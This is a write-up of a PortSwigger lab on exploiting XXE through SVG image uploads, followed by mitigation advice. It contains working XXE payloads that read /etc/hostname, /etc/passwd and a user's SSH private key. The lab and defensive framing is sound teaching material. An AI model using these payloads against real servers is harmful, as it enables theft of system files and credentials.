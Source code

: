 # Exploiting XXE via Image File Upload (PortSwigger Lab)

## Exploiting XXE via Image File Upload

### **Lab URL**

[PortSwigger Lab: Exploiting XXE via Image File Upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

***

### **Objective**

The goal of this lab is to exploit an **XML External Entity (XXE) vulnerability** through an image file upload function to retrieve sensitive data from the server. The vulnerability exists due to improper handling of **SVG files**, which are XML-based, and their processing by the **Apache Batik library**.

***

### **Understanding the Vulnerability**

* The application accepts **image uploads** but does not properly restrict XML processing in **SVG files**.
* External entities within an **SVG file** can reference **local files**, allowing **data exfiltration**.
* The **Apache Batik library**, used for SVG rendering, processes XML entities, making it vulnerable to **XXE attacks**.

***

### **Step-by-Step Solution**

#### **Step 1: Generate Traffic and Identify File Upload Functionality**

1. Navigate to the lab and locate the **comment submission form**.
2. Submit a test comment with a **valid image file** (e.g., `.png` or `.jpg`).
3. Use **Burp Suite** to intercept the request and analyze the file upload process.

***

#### **Step 2: Modify the Request to Inject an XXE Payload**

1. Capture the **file upload request** in Burp Suite.
2. Modify the request to **change the file extension** to `.svg`.
3. Set the **Content-Type header** to `image/svg+xml`.
4. Replace the image data with the following **XXE payload**:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

5. Send the modified request.
6. Check the **comments section** and inspect the **uploaded image**.
7. Extract the displayed **server hostname** from the SVG rendering.
8. Submit the extracted **hostname** to complete the lab.

***

### **Alternative Payloads for Additional Testing**

#### **1. Testing for File Disclosure Beyond Hostname**

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>
    <text>&xxe;</text>
</svg>
```

#### **2. Testing for SSH Key Disclosure**

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/user/.ssh/id_rsa"> ]>
<svg>
    <text>&xxe;</text>
</svg>
```

***

### **Why This is an Example of an XXE Attack**

#### **Characteristics of the Vulnerability**

1. **Insecure XML Parsing:** The application accepts **SVG files**, which are processed as XML.
2. **External Entity Injection:** The XML structure allows references to local files using `SYSTEM` entities.
3. **Sensitive Data Disclosure:** The response displays **server information**, demonstrating **data exfiltration**.

***

### **Mitigation Strategies**

#### &#x20;**Best Practices for Preventing XXE**

| **Mitigation Approach**             | **Secure?** | **Explanation**                                         |
| ----------------------------------- | ----------- | ------------------------------------------------------- |
| **Disable External Entities**       | ✅           | Prevents XML parsers from processing external entities. |
| **Use Secure XML Parsers**          | ✅           | Ensures entity expansion is disabled by default.        |
| **Sanitize File Uploads**           | ✅           | Restricts file types to non-XML-based formats.          |
| **Verify Content-Type Server-Side** | ✅           | Prevents attackers from spoofing image uploads.         |

#### **Example of Secure XML Parsing (Python)**

```python
import defusedxml.ElementTree as ET
ET.parse('data.xml')  # Secure parsing without external entities
```

#### **Example of Secure XML Parsing (Java)**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

***

### **Conclusion**

This lab demonstrates how **XXE vulnerabilities in file uploads** can be exploited to retrieve **sensitive system information**. To mitigate these risks, **external entity processing must be disabled**, **SVG uploads should be restricted**, and **file validation must be enforced** to prevent unauthorized XML parsing.
